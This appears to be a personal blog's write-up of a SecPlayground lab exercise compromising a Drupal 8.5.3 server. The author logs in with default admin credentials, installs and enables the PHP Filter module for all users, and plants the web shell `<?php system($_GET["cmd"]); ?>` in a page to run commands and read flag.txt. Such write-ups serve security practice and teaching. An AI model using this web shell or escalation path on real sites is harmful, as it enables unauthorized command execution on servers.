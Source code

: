 # bkornpob.github.io
bkornpob website

--------------------------

#drupal #misconfigured #shell-injection
#secplayground

Exercise: https://play.secplayground.com/lab/65

# Brief

Default admin cred
```
Drupal version 8.5.3
user: admin
password: password
```

# Mission

Read flag.txt

# Solved

pwn: login with default admin cred
escalate: inject php shell
payload: `<?php system($_GET["cmd"]); ?>`

![alt text1](Pasted image 20250905002202.png)

![alt text2](0 unsorted/Pasted image 20250905002202.png)

![alt text3](https://github.com/bkornpob/bkornpob.github.io/blob/main/SELENE-username-enumeration-response-timing.png)

1. access the server and login with admin:password
2. research about Drupal interface and how to inject php shell
   summary: simply create a page, make sure php script is enabled
3. Content > Add content > Basic page > 
   'Title':'abc', 
   'Body':payload,
   'Text format':***Notice that there is no php option*** , leave default as 'Basic HTML',
   'Published':1,
   SAVE
4. access the abc page and verify that php script is disabled
5. enable php script
	1. install PHP module
		   Extend > Install new module > modules
		   this takes to https://www.drupal.org/project/project_module
		   find ![[Pasted image 20250905002202.png]] ***it was really hard to find; filter and sort saved the day?***
		   https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
			   The website encountered an unexpected error. Please try again later.
			try different release ![[Pasted image 20250905003434.png]]
		   https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
			   Installation was completed successfully.
	2. enable PHP module
	   idea of this step is to grant privy for non-admin user to run php script
		   Extend > find PHP Filter > Check TRUE > Install
		   Extend > find PHP Filter > Click (at the description) to expand > Permission > find 'Use the PHP Code text format' > Check TRUE all users > Save permissions
6.  Create Basic page (step 3) now has
	   'Text format':'PHP code'
	inject php shell
7. Access either using preview
	   http://34.124.158.245/node/preview/75d37909-67a4-428c-91c6-2948dc73192f/full?cmd=whoami
	or directly access the published page
		http://34.124.158.245/node/1?cmd=whoami
8. Read flag.txt
